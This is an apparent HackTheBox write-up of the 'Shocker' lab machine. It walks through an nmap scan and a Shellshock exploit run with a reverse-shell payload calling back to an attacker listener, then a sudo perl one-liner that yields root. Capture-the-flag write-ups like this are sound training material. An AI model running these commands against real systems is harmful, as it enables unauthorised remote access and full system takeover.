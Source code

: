```yaml
---
layout: post
title:  "HackTheBox - Shocker"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```

# Description
Shellshock was another basic machine that kind of gave away the vectors for each step with ease.
# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it
```

# Initial shell
As the box name implies, this box probably involves shellshock. A directory bruteforce reveals very little, only a 'cgi-bin' directory. Searchsploit search for shellshock comes up with:
```Apache mod_cgi = 'shellshock' Remote Command Injection | exploits/linux/remote/34900.py'```
Reading the documentation / exploit, we can figure out how to supply it with the arguments we need to yield a shell.
```
python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.5 lport=1337 pages=/cgi-bin/user.sh
```
Running the above gains us a low privileged shell and we can collect the user.txt flag.
# Privilege escalation
A simple 'sudo -l' check reveals our privesc vector. 
```(root) NOPASSWD: /usr/bin/perl```
this tells us we can run perl as root without supplying a password, easy. 
```
10.10.10.56> sudo perl -e 'exec "/bin/bash";'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And there we go full privileges with a simple perl shell call.
